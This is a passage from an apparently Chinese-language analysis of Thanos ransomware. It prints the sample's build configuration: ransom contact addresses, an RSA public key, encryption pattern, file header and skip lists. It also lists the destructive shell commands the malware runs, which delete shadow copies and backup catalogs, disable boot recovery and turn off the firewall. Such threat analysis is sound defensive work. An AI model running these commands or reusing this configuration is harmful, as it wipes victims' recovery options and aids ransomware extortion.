 5、要执行的Shell命令列表。

配置的变量名称和示例值如下：

```
EMAIL_1：“dataissafe[at]protonmail[.]com”
EMAIL_2：“dataissafe[at]mail[.]com”
FILE_EXTENSION：“thanos”
PUBLIC_KEY：
“——-BEGIN PUBLIC KEY——- nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDa+whJSxr9ngcD1T5GmjDNSUEYngz5esbym
vy4lE9g2M3PvVc9iLw9Ybe+NMqJwHB8FYCTled48mXQmCvRH2Vw3lPkAnTrQ4zbVx0fgEsoxekqt
b3GbK2NseXEeavCi5lo5/jXZi4Td7nlWTu27CluyxRSgvnL0O19CwzvckTM91BKwIDAQABn
——-END PUBLIC KEY——-”
NUMBER_OF_KEYS_PER_ROOT_PATH：100
CHUNK_SIZE：10485760L (10 MB)
ENCRYPTION_PATTERN：true, true, false, false, false, true, true, false, false, false, false, false, false, false, false, false
HEADER：0x68, 0x61, 0x70, 0x70, 0x79, 0x6E, 0x79, 0x33, 0x2E, 0x31 (ASCII for “happyny3.1”)
DIR_BLACKLIST：”Windows”, “Boot”, “System Volume Information”, “Program FilesCommon FilesMicrosoft Shared”, “Program FilesCommon FilesSystem”, “Program FilesCommon FilesServices”, “Program FilesCommon FilesSpeechEngines”, “Program Files (x86)Common Filesmicrosoft shared”, “Program Files (x86)Common FilesSystem”, “Program Files (x86)Common FilesServices”, “Program Files (x86)Common FilesSpeechEngines”, “Program FilesInternet Explorer”, “Program FilesInternet Explorer”, “Program FilesWindows Mail”, “Program FilesWindows Media Player”, “Program FilesWindows Photo Viewer”, “Program FilesWindows Sidebar”, “Program FilesDVD Maker”, “Program FilesMSBuild”, “Program FilesReference Assemblies”, “Program FilesWindows Defender”, “Program FilesWindows NT”, “Program Files (x86)Internet Explorer”, “Program Files (x86)Windows Mail”, “Program Files (x86)Windows Media Player”, “Program Files (x86)Windows Photo Viewer”, “Program Files (x86)Windows Sidebar”, “Program Files (x86)MSBuild”, “Program Files (x86)Reference Assemblies”, “Program Files (x86)Windows Defender”, “Program Files (x86)Windows NT”, “ProgramDataMicrosoft”, “UsersAll Users”
EXTENSION_BLACKLIST：”mui”, “exe”, “dll”, “lolz”
FILE_BLACKLIST：”decryption.txt”, “$Mft”, “$Mft (NTFS Master File Table)”, “$MftMirr”, “$LogFile”, “$LogFile (NTFS Volume Log)”, “$Volume”, “$AttrDef”, “$Bitmap”, “$BitMap”, “$BitMap (NTFS Free Space Map)”, “$Boot”, “$BadClus”, “$Secure”, “$Upcase”, “$Extend”, “$Quota”, “$ObjId”, “$Reparse”, “$Extend”, “bootmgr”, “BOOTSECT.BAK”, “pagefile.sys”, “pagefile.sys (Page File)”, “boot.ini”, “bootfont.bin”, “io.sys”
EXEC_COMMANDS：”vssadmin delete shadows /all /quiet”, “wmic shadowcopy delete”, “bcdedit /set `{`default`}` bootstatuspolicy ignoreallfailures”, “bcdedit /set `{`default`}` recoveryenabled no”, “wbadmin delete catalog -quiet”, “netsh advfirewall set currentprofile state off”, “netsh firewall set opmode mode=disable”
TXT：勒索提示信息（参见威胁指标）
```

BuildConfig文件截图：

![](https://p3.ssl.qhimg.com/t01f8e8f0549bc26782.png)



## 五、行为

在执行后，该恶意软件将运行`BuildConfig`文件中一组指定的Shell命令：

```
vssadmin delete shadows /all /quiet
wmic shadowcopy delete
bcdedit /set `{`default`}` bootstatuspolicy ignoreallfailures
bcdedit /set `{`default`}` recoveryenabled no
wbadmin delete catalog -quiet
netsh advfirewall set currentprofile state off
netsh firewall set opmode mode=disable
```
